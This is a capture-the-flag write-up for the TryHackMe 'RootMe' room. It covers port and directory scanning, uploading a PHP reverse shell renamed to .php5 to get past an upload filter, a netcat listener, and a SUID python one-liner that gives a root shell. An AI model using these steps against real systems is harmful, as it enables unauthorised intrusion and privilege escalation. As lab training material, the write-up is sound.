 # RootMe - solution
- Link: https://tryhackme.com/room/rrootme
- Difficulty: `easy`

## Host recognition
- `cd nmap`
-  `nmap <IP> --open -oG scan`
 -  `extractPorts scan` (custom command) to copy open ports
- `nmap <IP> -sCV -p22,80 -oN ports `

## Port 80 - website recognition
- `gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -o hidden_dir` to discover hidden directories
- Found `/panel` and `/uploads`
- Found an input form on `http://<IP>/panel`

## Exploitation
- `cd scripts`
- Downloaded `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php` 
- Set my own IP and a random port in that code
- Renamed it with `.php5` extension because `.php` was not accepted
- Uploaded the file
- `nc -lvnp <port>` to make NetCat listen on the specified port
- Visited `http://<IP>/uploads` and run the uploaded file 
- Inside the reverse shell:
  - `cd /var/www`
  - `cat user.txt`
    - Found the `USER FLAG`
  
## Privileges escalation
- Inside the reverse shell:
  - Couldn't access `/root`, so:
  - `find / -user root -perm /4000` (THM hint to find binaries)
  - Found `/usr/bin/python`
- Checked it on https://gtfobins.github.io (filtered by SUID) and found how to exploit the binary
- Inside the reverse shell:
  - `python -c 'import os; os.execl("/bin/sh", "sh", "-p")' `
  - `whoami` to check if I became the root 
  - `cd /root`
  - `cat root.txt` 
    - Found the `ROOT FLAG`
